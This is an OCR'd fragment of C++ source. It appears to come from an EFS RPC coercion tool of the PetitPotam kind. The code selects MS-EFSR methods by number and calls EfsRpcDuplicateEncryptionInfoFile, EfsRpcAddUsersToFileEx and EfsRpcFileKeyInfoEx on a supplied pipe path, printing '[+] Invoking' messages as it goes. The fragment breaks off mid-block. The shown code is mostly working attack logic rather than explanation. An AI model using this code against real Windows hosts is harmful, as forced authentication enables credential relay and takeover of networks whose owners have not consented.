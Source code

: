 ```c++
        {
            wprintf(L"[+] Invoking EfsRpcDuplicateEncryptionInfoFile with target path: %ws.\r\n", PipeFileName);

            /*
             *  DWORD EfsRpcDuplicateEncryptionInfoFile(
             *      [in] handle_t hBinding,
             *      [in, string] wchar_t* SrcFileName,
             *      [in, string] wchar_t* DestFileName,
             *      [in] DWORD dwCreationDisposition,
             *      [in] DWORD dwAttributes,
             *      [in, unique] EFS_RPC_BLOB* RelativeSD,
             *      [in] BOOL bInheritHandle
             *  );
             */

            EFS_RPC_BLOB RelativeSD;
            result = EfsRpcDuplicateEncryptionInfoFile(hBinding, PipeFileName, PipeFileName, 1, 0, &RelativeSD, FALSE);
        }

        if (efsId == 9)
        {
            wprintf(L"[+] Invoking EfsRpcAddUsersToFileEx with target path: %ws.\r\n", PipeFileName);

            /*
             *  DWORD EfsRpcAddUsersToFileEx(
             *      [in] handle_t hBinding,
             *      [in] DWORD dwFlags,
             *      [in, unique] EFS_RPC_BLOB* Reserved,
             *      [in, string] wchar_t* FileName,
             *      [in] ENCRYPTION_CERTIFICATE_LIST* EncryptionCertificates
             *  );
             */

            EFS_RPC_BLOB Reserved;
            ENCRYPTION_CERTIFICATE_LIST EncryptionCertificates;
            result = EfsRpcAddUsersToFileEx(hBinding, 0, &Reserved, PipeFileName, &EncryptionCertificates);
        }

        if (efsId == 10)    // error
        {
            wprintf(L"[+] Invoking EfsRpcFileKeyInfoEx with target path: %ws.\r\n", PipeFileName);

            /*
             *  DWORD EfsRpcFileKeyInfoEx(
             *      [in] handle_t hBinding,
             *      [in] DWORD dwFileKeyInfoFlags,
             *      [in, unique] EFS_RPC_BLOB* Reserved,
             *      [in, string] wchar_t* FileName,
             *      [in] DWORD InfoClass,
             *      [out] EFS_RPC_BLOB** KeyInfo
             *  );
             */

            EFS_RPC_BLOB Reserved;
            EFS_RPC_BLOB* KeyInfo;
            result = EfsRpcFileKeyInfoEx(hBinding, 0, &Reserved, PipeFileName, 0, &KeyInfo);
        }
        if (efsId == 11)    // error
        {
```
